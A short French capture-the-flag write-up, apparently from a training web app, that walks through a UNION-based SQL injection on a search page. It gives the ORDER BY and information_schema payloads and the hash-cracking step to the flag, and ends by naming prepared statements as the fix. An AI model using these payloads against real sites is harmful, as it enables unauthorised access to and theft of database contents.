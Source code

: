 # exploiter faille SQL

## Exploit
sur la page /index.php?page=searchimg nous pouvons effectuer une recherche direcement dans la base de donnee \
pour exploiter la table nous avons besoin de connaitre le nom des tables et des colonne. \
dans un premier temp on cherche le nombre de colonne avec : 1 ORDER BY X \
une fois X determine on recherche le nom de la table qui nous interesse avec : 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables \
(ajouter autant de table_schema ou table_name que X) \
ensuite il nous faut determiner les colonnes de la table : 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns \
pour finir on execute notre requete avec les informations recuperees : 1 AND 1=2 UNION SELECT title,comment FROM list_images \
la base de donnees nous affiche : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 \
decrypte : albatroz \
on met en minuscule puis encrypte en Sh256 pour avoir le flag. 

## Protection :
L'utilisation de requete preparee en back  permet d'eviter l'injection sql. 
